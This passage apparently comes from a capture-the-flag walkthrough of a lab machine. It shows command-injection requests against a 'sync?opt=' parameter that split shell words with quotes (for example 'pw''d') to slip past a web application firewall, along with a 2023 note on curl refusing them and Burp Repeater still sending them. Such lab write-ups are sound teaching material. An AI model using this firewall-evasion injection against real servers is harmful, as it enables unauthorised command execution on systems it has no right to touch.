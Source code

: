 Perhaps the 403 is a WAF rejecting me, which is why /bin/l doesn’t get 403,
but /bin/ls does? But the Server: SuperWAF comes back only in the empty
replies and the functional replies.

Seems like if I can figure out command injection, then I can figure out how to
get that through the WAF…

Adding a space starts to get somewhere…and using ” to break things apart.

_July 2023 Update_ \- It seems that `curl` behaves a bit differently now, and
won’t send these kind of broken payloads any more. Where in 2018, this worked:

    
    
    root@kali# curl "10.10.10.69/sync?opt=' pw''d'"
    /
    bash: -c: option requires an argument
    
    root@kali# curl "10.10.10.69/sync?opt=' whi''ch cu''rl'"
    /usr/bin/curl
    bash: -c: option requires an argument
    

In 2023, it does not:

    
    
    oxdf@hacky$ curl "10.10.10.69/sync?opt=' pw''d'"
    curl: (3) URL using bad/illegal format or missing URL
    

No request is even sent. Still, it does work in Burp Repeater:

![image-20230715061913023](../img/image-20230715061913023.png)
